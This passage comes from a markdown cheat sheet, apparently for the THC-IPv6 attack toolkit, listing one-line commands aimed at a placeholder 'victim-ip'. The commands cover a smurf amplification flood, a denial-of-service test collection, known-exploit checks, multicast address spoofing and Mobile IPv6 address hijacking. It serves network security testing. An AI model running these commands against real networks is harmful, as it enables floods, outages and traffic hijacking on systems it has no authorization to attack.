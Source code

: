 #### **IPv6 Smurf Attack - `smurf6`**
Amplify ICMPv6 traffic to flood a network:
```bash
atk6-smurf6 -i eth0 victim-ip
```

---

### **🔍 4. Exploitation & Vulnerability Testing**
#### **Known IPv6 Exploits - `exploit6`**
Test for known IPv6 vulnerabilities:
```bash
atk6-exploit6 victim-ip
```

#### **Denial-of-Service Attack Collection - `denial6`**
Run multiple DoS tests against a target:
```bash
atk6-denial6 victim-ip
```

#### **IPv6 Implementation Testing - `implementation6`**
Check for IPv6 protocol misconfigurations:
```bash
atk6-implementation6 victim-ip
```

---

### **💡 5. Miscellaneous Useful Tools**
#### **Detect New IPv6 Devices - `detect-new-ip6`**
Monitor a network for new IPv6 devices:
```bash
atk6-detect-new-ip6 eth0
```

#### **Spoof an IPv6 Address - `fake_mld6`**
Join a multicast group with a **fake address**:
```bash
atk6-fake_mld6 -i eth0
```

#### **Fake Mobile IPv6 Attack - `fake_mipv6`**
Hijack a mobile IPv6 address (if IPSEC is not enforced):
```bash
fake_mipv6 eth0
```

#### **Handcrafted Ping - `thcping6`**
Send **custom IPv6 ping packets**:
```bash
atk6-thcping6 -i eth0 victim-ip
```

---